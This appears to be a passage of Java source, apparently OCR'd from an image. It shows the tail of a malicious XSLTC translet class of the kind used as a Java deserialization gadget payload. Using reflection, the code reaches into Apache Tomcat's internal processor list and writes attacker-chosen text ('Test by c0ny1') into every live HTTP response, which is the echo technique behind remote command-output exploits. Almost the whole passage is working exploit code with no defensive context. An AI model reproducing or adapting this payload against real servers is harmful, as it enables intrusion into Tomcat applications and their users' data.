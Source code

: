 ```
                        obj = field.get(obj);

                        field = obj.getClass().getSuperclass().getDeclaredField("global");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        field = obj.getClass().getDeclaredField("processors");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        ArrayList processors = (ArrayList) obj;
                        for (Object o : processors) {
                            try {
                                field = o.getClass().getDeclaredField("req");
                                field.setAccessible(true);
                                obj = field.get(o);
                                org.apache.coyote.Request request = (org.apache.coyote.Request) obj;

                                byte[] buf = "Test by c0ny1".getBytes();
                                ByteChunk bc = new ByteChunk();
                                bc.setBytes(buf, 0, buf.length);
                                request.getResponse().doWrite(bc);
                            }catch (Exception e){
                                e.printStackTrace();
                            }
                        }
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }

        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
